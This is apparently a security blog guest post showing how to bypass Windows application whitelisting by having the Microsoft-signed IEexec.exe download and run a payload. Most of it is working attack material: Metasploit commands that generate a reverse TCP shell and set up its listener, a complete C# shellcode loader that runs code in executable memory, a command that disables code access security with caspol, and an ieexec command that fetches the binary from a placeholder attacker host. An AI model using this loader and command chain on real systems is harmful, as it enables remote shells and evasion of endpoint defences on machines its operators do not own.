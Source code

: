 = "Application Whitelist Bypass using IEexec.exe"
:hp-tags: 

## Guest post by [@infosecsmith2](https://twitter.com/infosecsmith2)

There was a recent presentation at DerbyCon, entitled:

[Living Off the Land: A Minimalist’s Guide to Windows Post-Exploitation](http://www.youtube.com/watch?v=j-r6UonEkUw)
by Christopher Campbell & Matthew Graeber

I highly recommend that you start with this presentation as it lays the foundation for this post.

The premise is, how can we maintain persistence in a corporate environment, using tools and defaults provided by the host OS we have compromised. This is a very important concept, given the shift in many organizations to an Application Whitelisting Defense model.

It is only a matter of time before time before you might encounter an Application Whitelisting Defense.

As a follow up to that presentation, I began exploring the binaries that ship by default with Windows.  That is where I stumbled across a binary in the C:\Windows\Microsoft.NET\Framework64\v2.0.50727 path.

The Executable is ieexec.exe. A write up is here: http://support.microsoft.com/kb/822485

> “The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.”

Excellent! So, now we just need to host our malicious binary , and call it from ieexec.exe.

This is great, since most Application Whitelisting Environments are going to “Trust” anything signed my Microsoft as a matter of convenience. IEexec.exe will download and execute our code for us, all under the trusted process.

So lets get started!

**Step 1.** Prepare your Shellcode, or whatever malicious app you want. I compiled my executable using SharpDevelop, since it has less footprint than a full blown Visual Studio install.
From msfconsole:

```
msf > use windows/x64/shell/reverse_tcp
msf payload(reverse_tcp) > set LHOST x.x.x.x
msf payload(reverse_tcp) > set LPORT 443
msf payload(reverse_tcp) > generate -t csharp
￼
byte[] buf = new byte[422] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52...

 <Snipped Full ShellCode for Brevity>
```

**Step 2.** Create the .NET wrapper application

```csharp
using System; 
using System.Runtime.InteropServices; 
namespace native 
{ 
    class Program 
    { 
            private static UInt32 MEM_COMMIT = 0x1000; 
            private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
            private static UInt32 MEM_RELEASE = 0x8000; 

        public static void Main(string[] args) 
        { 
            // native function's compiled code 

            byte[] proc = new byte[] { 
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52... 
            
            //Edited ShellCode For Brevity 
            }; 

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)proc.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
            Marshal.Copy(proc, 0, (IntPtr)(funcAddr), proc.Length); 
            IntPtr hThread = IntPtr.Zero; 
            UInt32 threadId = 0; 

            // prepare data 

            PROCESSOR_INFO info = new PROCESSOR_INFO(); 
            IntPtr pinfo = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(PROCESSOR_INFO))); 
            Marshal.StructureToPtr(info, pinfo, false); 
            
            // execute native code 

            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId); 
            WaitForSingleObject(hThread, 0xFFFFFFFF); 

            // retrive data 

            info = (PROCESSOR_INFO)Marshal.PtrToStructure(pinfo, typeof(PROCESSOR_INFO)); 
            Marshal.FreeHGlobal(pinfo); 
            CloseHandle(hThread);
            VirtualFree((IntPtr)funcAddr, 0, MEM_RELEASE); 
        } 

        [DllImport("kernel32")] 
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 

        [DllImport("kernel32")] 
        private static extern bool VirtualFree(IntPtr lpAddress, UInt32 dwSize, UInt32 dwFreeType); 

        [DllImport("kernel32")] 
        private static extern IntPtr CreateThread( UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId ); 

        [DllImport("kernel32")] 
        private static extern bool CloseHandle(IntPtr handle); 

        [DllImport("kernel32")] 
        private static extern UInt32 WaitForSingleObject( IntPtr hHandle, UInt32 dwMilliseconds ); 

        [DllImport("kernel32")] 
        private static extern IntPtr GetModuleHandle( string moduleName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 GetProcAddress( IntPtr hModule, string procName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 LoadLibrary( string lpFileName ); 

        [DllImport("kernel32")] 
        private static extern UInt32 GetLastError();
        
        [StructLayout(LayoutKind.Sequential)] 
        internal struct PROCESSOR_INFO 
        { 
            public UInt32 dwMax; 
            public UInt32 id0; 
            public UInt32 id1; 
            public UInt32 id2; 
            public UInt32 dwStandard; 
            public UInt32 dwFeature; 

            // if AMD 
            public UInt32 dwExt; 
        }
    } 
}
```

You will want to compile the exe for the target platform. In this case I am going for an x64 target. Also, you will want to compile for 2.0 or 3.5 Framework.

**Step 3.** Host the Exe. For this example, I used Mongoose. Simple and Effective:

http://code.google.com/p/mongoose/

By default Mongoose listens on port 8080. This is configurable. Simple place your compiled binary from step 2 into the same directory as Mongoose. Start Mongoose and you are almost ready to deliver your payload.

**Step 4.** Setup your receiver:

```
msf payload(reverse_tcp) > use exploit/multi/handler
msf exploit(handler) > set LHOST x.x.x.x
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set PAYLOAD windows/x64/shell/reverse_tcp
msf exploit(handler) > exploit -j
```

**Step 5.** From the host that is protected via Whitelisting. Open 2 Command Prompts as administrator.

**CMD 1 Execute:**
```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
```
￼
**CMD 2 Execute:**
```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>ieexec.exe http://x.x.x.x:8080/bypass.exe
```

There is some detail to unpack here, I can go over later, as to why we need to run caspol.exe. Here’s the behavior I saw in our experimentation with this.

Initial attempt to run our rogue binary fails, since it is unknown/untrusted/unapproved:

![](/images/postimages/201401_whitelisting_1.png)

Now, on the same host...

![](/images/postimages/201401_whitelisting_2.png)

Executes just fine!

![](/images/postimages/201401_whitelisting_3.png)

Its important to distinguish what this technique is and what it is not. This is not an exploit or vulnerability. Rather this is one way to execute arbitraty code in an Application Whitelisting Environment.

**Summary:**

In this document we learned that even if a host is in a mode where only trusted approved applications can run. IEexec.exe can be used in certain situations to circumvent a Whitelist, since it is likely a trusted binary, since it is signed by Microsoft.

Cheers,

=> [@infosecsmith2](https://twitter.com/infosecsmith2)
